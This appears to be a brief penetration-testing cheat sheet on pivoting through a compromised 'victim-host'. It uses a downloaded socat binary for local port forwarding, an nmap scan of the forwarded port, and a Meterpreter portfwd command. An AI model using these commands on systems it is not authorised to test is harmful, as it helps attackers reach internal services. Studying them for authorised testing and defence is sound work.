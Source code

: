 # Local portforwarding withouth SSH
## Local portforwarding with socat
<pre>
# download socat
attack-host$ wget https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat

# transfer binary to victim host
...

# set local portforwarding on victim host
victim-host$ ./socat tcp-l:4567,fork,reuseaddr tcp:127.0.0.1:8080

# use tools on attack machine against listening remote port
attack-host$ nmap -Pn -v victim-host.local -p4567
PORT   STATE SERVICE
4567/tcp open  http
</pre>
## Local portforwarding with Meterpreter
<pre>
meterpreter> portfwd add -l 7878 -r &lt;victim_ip&gt; -p 631

</pre>
